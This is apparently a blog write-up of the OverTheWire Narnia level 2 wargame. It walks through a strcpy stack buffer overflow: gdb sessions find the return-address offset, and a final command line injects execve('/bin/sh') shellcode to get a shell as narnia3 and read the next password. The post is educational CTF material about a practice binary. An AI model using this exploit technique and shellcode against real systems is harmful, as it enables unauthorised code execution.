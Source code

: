 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 2 -> 3"
subtitle:   "Write-Up"
date:       2017-02-03 0:00:00
author:     "W3ndige"
permalink: /:title/
category: Overthewire
---
```


<p>What about another challenge in reverse engineering? Anywhere, anytime! </p>

<h1>Challenge</h1>

<p>As always, let's start from viewing the source code.</p>

{% highlight c %}
int main(int argc, char * argv[]){
	char buf[128];

	if(argc == 1){
		printf("Usage: %s argument\n", argv[0]);
		exit(1);
	}
	strcpy(buf,argv[1]);
	printf("%s", buf);

	return 0;
}

{% endhighlight %}

<p>Okay, now let's run it. </p>

{% highlight text%}
narnia2@melinda:/narnia$ ./narnia2
Usage: ./narnia2 argument
narnia2@melinda:/narnia$ ./narnia2 ARGUMENT
ARGUMENTnarnia2@melinda:/narnia$
{% endhighlight %}

<p>As in the source code, we see that if argument is not passed, then usage instructions are printed, otherwise value of argument is printed on the next line. In addition, source code gives us information that char buf is 128 bytes in size. Let's try to trigger the segmentation fault. </p>

{% highlight text %}
ARGUMENTnarnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 140")
Illegal instruction
narnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 141")
Segmentation fault
{% endhighlight %}

<p>Hmm, that's interesting. After trying different amounts of A letters, I've noticed that by writing 140 of them, we will get <b>Illegal instruction</b> message, but 141 letters end up with our desired <b>Segmentation fault</b>. Maybe gdb will tell us something more? </p>

{% highlight text %}
narnia2@melinda:/narnia$ gdb ./narnia2
(gdb) break *main
Breakpoint 1 at 0x804845d
{% endhighlight %}

<p>Firstly let's investigate the illegal instruction option. </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 140")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 140")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGILL, Illegal instruction.
0xf7e3ca00 in __libc_start_main () from /lib32/libc.so.6
(gdb) c
Continuing.

Program terminated with signal SIGILL, Illegal instruction.
The program no longer exists.

{% endhighlight %}

<p>Unfortunately after doing some research I've found out that SIGILL won't help us much. What we have to try is to overwrite the <b>instruction pointer. </b></p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 144")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 144")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) c
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
{% endhighlight %}

<p>Luckily, adding only 3 more A's overwrote the pointer. But here comes another problem, what is its address? </p>
<p>We can try to find out by writing around B's at the end. Let's see. </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 138 + 'B' * 6")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 138 + 'B' * 6")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/200x $esp
0xffffd7f0:	0x00000000	0x00000000	0xb7000000	0x9449f175
0xffffd800:	0xb7857a44	0x6da4653e	0x69a15cf3	0x00363836
0xffffd810:	0x00000000	0x6d61672f	0x6e2f7365	0x696e7261
0xffffd820:	0x616e2f61	0x61696e72	0x41410032	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd8a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd8b0:	0x41414141	0x42424242	0x58004242	0x535f4744
{% endhighlight %}

<p>Great! EIP address is 0xffffd8b3. Now we have to find a way to use shellcode from previous challenge. But firstly, let's find its length. </p>

{% highlight text %}
narnia2@melinda:/narnia$ python -c'print(len("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"))'
25
{% endhighlight %}

<p>25 bytes. As our string have to be 144 bytes in length, I'll firstly write 112 bytes of A letters, then 25 bytes of our shellcode and then overwrite the EIP with memory address somewhere in the middle of A's. Let's try it out! </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'B' * 4")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'B' * 4")

(gdb) x/200x $esp
0xffffd7f0:	0x00000000	0x00000000	0x4d000000	0x2bdc9c96
0xffffd800:	0xd596f713	0x775b1954	0x6969a442	0x00363836
0xffffd810:	0x00000000	0x6d61672f	0x6e2f7365	0x696e7261
0xffffd820:	0x616e2f61	0x61696e72	0x41410032	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0xc0314141	0x2f2f6850
0xffffd8a0:	0x2f686873	0x896e6962	0x89c189e3	0xcd0bb0c2
0xffffd8b0:	0x40c03180	0x424280cd	0x58004242	0x535f4744
0xffffd8c0:	0x49535345	0x495f4e4f	0x30323d44	0x33323431
0xffffd8d0:	0x45485300	0x2f3d4c4c	0x2f6e6962	0x68736162
0xffffd8e0:	0x52455400	0x74783d4d	0x2d6d7265	0x63363532
0xffffd8f0:	0x726f6c6f	0x48535300	0x494c435f	0x3d544e45
0xffffd900:	0x362e3938	0x36312e34	0x3732312e	0x30333320
0xffffd910:	0x32203434	0x53530032	0x54545f48	0x642f3d59
0xffffd920:	0x702f7665	0x342f7374	0x434c0033	0x4c4c415f

{% endhighlight %}

<p>Great, we can see that even with the shellcode B's overwrote the EIP. Now let's try it with the actuall address - somewhere in the middle of the A letters. Maybe <b>0xffffd863</b>?</p>

{% highlight text %}
narnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x63\xd8\xff\xff'")
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
{% endhighlight %}

<p>And we've got the password to the next level!</p>

<h1>Conclusion</h1>
<p>The challenge was awesome, but really time consuming. It was worth every minute as I learned a lot from trying out these different ways to finish this level. Thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>!</p>
